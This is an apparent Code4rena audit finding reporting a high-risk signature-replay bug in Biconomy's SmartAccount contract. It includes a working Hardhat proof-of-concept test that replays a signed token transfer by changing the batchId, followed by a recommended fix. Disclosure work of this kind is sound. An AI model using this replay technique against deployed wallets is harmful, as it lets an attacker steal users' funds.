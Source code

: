 ## Tags

- bug
- 3 (High Risk)
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- edited-by-warden
- H-07

# [Replay attack (EIP712 signed transaction)](https://github.com/code-423n4/2023-01-biconomy-findings/issues/36) 

# Lines of code

https://github.com/code-423n4/2023-01-biconomy/blob/53c8c3823175aeb26dee5529eeefa81240a406ba/scw-contracts/contracts/smart-contract-wallet/SmartAccount.sol#L212


# Vulnerability details

## Impact
Signed transaction can be replayed. First user transaction can always be replayed any amount of times. With non-first transactions attack surface is reduced but never dissapears

## Why it possible
Contract checks `nonces[batchId]` but not `batchId` itself, so we could reuse other batches nounces. If before transaction we have `n` batches with the same nonce as transaction batch, then transaction can be replayed `n` times. Since there are 2^256 `batchId`s with nonce = 0, first transaction in any batch can be replayed as much times as attacker needs.

## Proof of Concept
Insert this test in `testGroup1.ts` right after `Should set the correct states on proxy` test:

    it("replay EIP712 sign transaction", async function () {
      await token
      .connect(accounts[0])
      .transfer(userSCW.address, ethers.utils.parseEther("100"));

    const safeTx: SafeTransaction = buildSafeTransaction({
      to: token.address,
      data: encodeTransfer(charlie, ethers.utils.parseEther("10").toString()),
      nonce: await userSCW.getNonce(0),
    });

    const chainId = await userSCW.getChainId();
    const { signer, data } = await safeSignTypedData(
      accounts[0],
      userSCW,
      safeTx,
      chainId
    );

    const transaction: Transaction = {
      to: safeTx.to,
      value: safeTx.value,
      data: safeTx.data,
      operation: safeTx.operation,
      targetTxGas: safeTx.targetTxGas,
    };
    const refundInfo: FeeRefund = {
      baseGas: safeTx.baseGas,
      gasPrice: safeTx.gasPrice,
      tokenGasPriceFactor: safeTx.tokenGasPriceFactor,
      gasToken: safeTx.gasToken,
      refundReceiver: safeTx.refundReceiver,
    };

    let signature = "0x";
    signature += data.slice(2);


    await expect(
      userSCW.connect(accounts[2]).execTransaction(
        transaction,
        0, // batchId
        refundInfo,
        signature
      )
    ).to.emit(userSCW, "ExecutionSuccess");

    //contract checks nonces[batchId] but not batchId itself
    //so we can change batchId to the one that have the same nonce
    //this would replay transaction
    await expect(
      userSCW.connect(accounts[2]).execTransaction(
        transaction,
        1, // changed batchId
        refundInfo,
        signature
      )
    ).to.emit(userSCW, "ExecutionSuccess");

    //charlie would have 20 tokens after this
    expect(await token.balanceOf(charlie)).to.equal(
      ethers.utils.parseEther("20")
    );
    });

## Recommended Mitigation Steps
add `batchId` to the hash calculation of the transaction in `encodeTransactionData` function